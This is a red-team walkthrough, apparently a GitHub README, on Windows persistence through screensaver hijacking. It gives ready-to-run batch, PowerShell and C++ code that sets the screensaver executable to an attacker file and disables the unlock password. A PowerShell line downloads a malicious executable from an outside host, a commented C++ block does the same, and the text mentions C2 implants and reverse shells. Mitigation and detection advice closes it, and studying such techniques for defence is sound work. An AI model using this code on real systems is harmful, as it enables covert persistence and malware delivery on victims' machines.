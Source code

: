 # Persistence through Windows Screensaver Hijacking

> Austin Lai | August 17th, 2022

---

<!-- Description -->

Brief description: A simple walkthrough on Windows Screensaver Hijacking for persistence.

<!-- /Description -->

## Table of Contents

<!-- TOC -->

- [Persistence through Windows Screensaver Hijacking](#persistence-through-windows-screensaver-hijacking)
    - [Table of Contents](#table-of-contents)
    - [Introduction](#introduction)
    - [Simple Demo](#simple-demo)
    - [Additional Information](#additional-information)

<!-- /TOC -->

## Introduction

Screensavers are programs that execute after a configurable time of user inactivity, an adversaries may establish persistence by executing malicious content triggered by screensavers. This feature of Windows it is known to be abused by threat actors as a method of persistence.

Screensavers are Portable Executable (PE) files with a `.scr` extension by default. The Windows screensaver application `scrnsave.scr` is located in `C:\Windows\System32\` and `C:\Windows\sysWOW64\` on 64-bit Windows systems, along with screensavers included with base Windows installations.

The following screensaver settings are stored in the Registry (`HKCU\Control Panel\Desktop\`) and could be manipulated to achieve persistence:

· `SCRNSAVE.exe` - set to malicious PE path.
· `ScreenSaveActive` - set to '1' to enable the screensaver.
· `ScreenSaverIsSecure` - set to '0' to not require a password to unlock.
· `ScreenSaveTimeout` - sets user inactivity timeout before screensaver is executed.

This is low level persistence technique as the registry keys stored under “HKCU“ which does not require system privilege. Adversaries can use screensaver settings to maintain persistence by setting the screensaver to run malware after a certain time-frame of user inactivity.

## Simple Demo

To demo this, we will set the screensaver path to basic batch script to load message box to display "You are Pwned!" with the idle time of 10 seconds when the user is inactive.

Sample basic batch script as below:

```batch
@echo off
reg add "HKCU\Control Panel\Desktop" /v ScreenSaveTimeOut /d 10 /f
reg add "HKCU\Control Panel\Desktop" /v ScreenSaveActive /d 1 /f
reg add "HKCU\Control Panel\Desktop" /v ScreenSaverIsSecure /d 0 /f
reg add "HKCU\Control Panel\Desktop" /v SCRNSAVE.EXE /d C:\Windows\Temp\pwn.bat /f

echo @echo off > C:\Windows\Temp\pwn.bat
echo msg %username% You are Pwned! >> C:\Windows\Temp\pwn.bat
```

You may also use powershell script with below:

```powershell
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'ScreenSaveTimeOut' -Value '10'
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'ScreenSaveActive' -Value '1'
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'ScreenSaverIsSecure' -Value '0'
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'SCRNSAVE.EXE' -Value 'C:\Windows\Temp\pwn.bat'
```

Once the registry changed, you may use command below to verify registry:

```batch
reg query "HKCU\Control Panel\Desktop" /s
```

If you want to remove the artifacts of registry, you can use powershell or normal dos command below:

```powershell
Remove-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'ScreenSaveTimeOut'
Remove-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'ScreenSaveActive'
Remove-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'ScreenSaverIsSecure'
Remove-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'SCRNSAVE.EXE'
```

```batch
reg delete Registry_key_path /v ScreenSaveTimeOut /f
reg delete Registry_key_path /v ScreenSaveActive /f
reg delete Registry_key_path /v ScreenSaverIsSecure /f
reg delete Registry_key_path /v SCRNSAVE.EXE /f
```

Adversaries may use tools such as Sliver C2 implants/beacon, reverse shell from msfvenom or even simple socat/powershell to callback to attacker machines. Simply added line below to download the malicious executable and change the path of “SCRNSAVE.EXE“ to malicious executable.

```batch
reg add "HKCU\Control Panel\Desktop" /v SCRNSAVE.EXE /d C:\Windows\Temp\plogin.exe

powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://192.168.147.6/plogin.exe', 'C:\Windows\Temp\plogin.exe')"
```

### ScreensaverHijack with command PWNED

![ScreensaverHijack-with-command-PWNED](https://github.com/austin-lai/Persistence-through-Windows-Screensaver-Hijacking/blob/master/ScreensaverHijack-with-command-PWNED.gif)

### ScreensaverHijack with sliver implants

![ScreensaverHijack-with-sliver-implants](https://github.com/austin-lai/Persistence-through-Windows-Screensaver-Hijacking/blob/master/ScreensaverHijack-with-sliver-implants.gif)

We may also use C++ and compile as screensaver register key changer executable using command below:

```bash
x86_64-w64-mingw32-g++ -O2 screensaver-reg.cpp -o screensaver-reg.exe -I /usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

Sample of C++ code as below:

```c++
#include <windows.h>
#include <string.h>
#include <iostream>
#include <urlmon.h>
#pragma comment(lib,"urlmon.lib")

using namespace std;

int reg_key_compare(HKEY hKeyRoot, char* lpSubKey, char* regVal, char* compare) {
  HKEY hKey = nullptr;
  LONG ret;
  char value[1024];
  DWORD size = sizeof(value);
  ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, KEY_READ, &hKey);
  if (ret == ERROR_SUCCESS) {
    RegQueryValueExA(hKey, regVal, NULL, NULL, (LPBYTE)value, &size);
    if (ret == ERROR_SUCCESS) {
      if (strcmp(value, compare) == 0) {
        return TRUE;
      }
    }
  }
  return FALSE;
}

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  
  // Change this to point to YOUR EXE/Script
  const char* placeholder = "C:\\Windows\\Temp\\plogin.exe";
  
  // Change timeouts duration
  const char* timeouts = "5";
  
  // Enable screensavers
  const char* enabled_screensavers = "1";
  
  // Disabled password
  const char* disabled_password = "0";

  // startup
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)"Control Panel\\Desktop", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveActive", 0, REG_SZ, (unsigned char*)enabled_screensavers, strlen(enabled_screensavers));
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveTimeOut", 0, REG_SZ, (unsigned char*)timeouts, strlen(timeouts));
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaverIsSecure", 0, REG_SZ, (unsigned char*)disabled_password, strlen(disabled_password));
    RegSetValueEx(hkey, (LPCSTR)"SCRNSAVE.EXE", 0, REG_SZ, (unsigned char*)placeholder, strlen(placeholder));
    RegCloseKey(hkey);
  }
  
  // Enable this if you need to download payload to the victim machines
  // HRESULT hr = URLDownloadToFile(0, L"http://192.168.147.6/plogin.exe", L"C:\Windows\Temp\plogin.exe", 0, NULL);
  // if (hr == S_OK){
  //   cout << "ok" << endl;
  // }
  return 0;
}
```

## Additional Information

This persistence technique mapping MITRE ATT&CK as below:

- TA0003/Persistence
- T1546/Event Triggered Execution
- T1546.002/Event Triggered Execution: Screensaver

To mitigate this, we should:

- Use Group Policy to disable screensavers if they are unnecessary.
- Block `.scr` files from being executed from non-standard locations.

Blue team should also include below for detection:

- Monitor process execution and command-line parameters of `.scr` files.
- Monitor changes to screensaver configuration changes in the Registry that may not correlate with typical user behavior.
- Though, many security solution including in-built Windows Defender will be able to monitor and detect this persistence method.

Assumption:

- Screensavers are NOT DISABLED by group policy.
- Bypass or managed to disabled Windows Defender.
- Session will drop when the user returns back and the system is not in idle mode.
- If intend to use powershell script, will need to bypass Windows Defender and allow powershell script to execute.

<br />

---

> Do let me know any command or step can be improve or you have any question you can contact me via THM message or write down comment below or via FB
